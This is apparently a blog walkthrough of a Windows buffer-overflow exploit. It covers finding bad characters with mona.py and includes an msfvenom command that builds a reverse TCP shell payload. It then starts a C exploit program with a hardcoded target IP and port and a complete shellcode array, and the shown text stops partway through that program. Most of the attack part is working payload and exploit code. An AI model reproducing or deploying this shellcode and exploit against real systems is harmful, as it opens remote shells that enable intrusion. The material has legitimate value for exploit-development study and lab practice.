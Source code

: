 We can also see how the reversed address looks like in memory.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*ar-_xolSOaUV8Jp13n8F6w.png)

## Creating our Shellcode:
After some digging and using the mona.py script, I was able to identify all the badchars: “\x00\x0a\x0d\x25\x26\x2b\x3d”.
Using msfvenom, we’ll create a reverse shell free of badchars:

```bash
msfvenom -p windows/shell_reverse_tcp lhost=<ip_alvo> lport=4444 exitfunc=seh -f c -b '\x00\x0a\x0d\x25\x26\x2b\x3d' -v shellcode
```
## Final exploit:
And here’s how my final exploit looks:


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define SERVER_IP "192.168.5.17"
#define SERVER_PORT 8080
#define BUFFER_SIZE 4096

int main() {
    int sock;
    struct sockaddr_in server;
    char buffer[BUFFER_SIZE];
    char payload[BUFFER_SIZE];
    char request[BUFFER_SIZE];
    char buf[1024];

    unsigned char shellcode[] =
    "\xda\xd9\xd9\x74\x24\xf4\x58\xba\xb9\xe2\xd9\xba\x33\xc9"
    "\xb1\x52\x31\x50\x17\x03\x50\x17\x83\x51\x1e\x3b\x4f\x5d"
    "\x37\x3e\xb0\x9d\xc8\x5f\x38\x78\xf9\x5f\x5e\x09\xaa\x6f"
    "\x14\x5f\x47\x1b\x78\x4b\xdc\x69\x55\x7c\x55\xc7\x83\xb3"
    "\x66\x74\xf7\xd2\xe4\x87\x24\x34\xd4\x47\x39\x35\x11\xb5"
    "\xb0\x67\xca\xb1\x67\x97\x7f\x8f\xbb\x1c\x33\x01\xbc\xc1"
    "\x84\x20\xed\x54\x9e\x7a\x2d\x57\x73\xf7\x64\x4f\x90\x32"
    "\x3e\xe4\x62\xc8\xc1\x2c\xbb\x31\x6d\x11\x73\xc0\x6f\x56"
    "\xb4\x3b\x1a\xae\xc6\xc6\x1d\x75\xb4\x1c\xab\x6d\x1e\xd6"
    "\x0b\x49\x9e\x3b\xcd\x1a\xac\xf0\x99\x44\xb1\x07\x4d\xff"
    "\xcd\x8c\x70\x2f\x44\xd6\x56\xeb\x0c\x8c\xf7\xaa\xe8\x63"
    "\x07\xac\x52\xdb\xad\xa7\x7f\x08\xdc\xea\x17\xfd\xed\x14"
    "\xe8\x69\x65\x67\xda\x36\xdd\xef\x56\xbe\xfb\xe8\x99\x95"
    "\xbc\x66\x64\x16\xbd\xaf\xa3\x42\xed\xc7\x02\xeb\x66\x17"
    "\xaa\x3e\x28\x47\x04\x91\x89\x37\xe4\x41\x62\x5d\xeb\xbe"
    "\x92\x5e\x21\xd7\x39\xa5\xa2\x18\x15\xa0\x22\xf1\x64\xaa"
    "\x53\x5d\xe0\x4c\x39\x4d\xa4\xc7\xd6\xf4\xed\x93\x47\xf8"
    "\x3b\xde\x48\x72\xc8\x1f\x06\x73\xa5\x33\xff\x73\xf0\x69"
    "\x56\x8b\x2e\x05\x34\x1e\xb5\xd5\x33\x03\x62\x82\x14\xf5"
    "\x7b\x46\x89\xac\xd5\x74\x50\x28\x1d\x3c\x8f\x89\xa0\xbd"
    "\x42\xb5\x86\xad\x9a\x36\x83\x99\x72\x61\x5d\x77\x35\xdb"
    "\x2f\x21\xef\xb0\xf9\xa5\x76\xfb\x39\xb3\x76\xd6\xcf\x5b"
    "\xc6\x8f\x89\x64\xe7\x47\x1e\x1d\x15\xf8\xe1\xf4\x9d\x06"
    "\x13\xc4\x0b\x9e\x8a\xbd\x71\xc2\x2c\x68\xb5\xfb\xae\x98"
    "\x46\xf8\xaf\xe9\x43\x44\x68\x02\x3e\xd5\x1d\x24\xed\xd6"
    "\x37";

```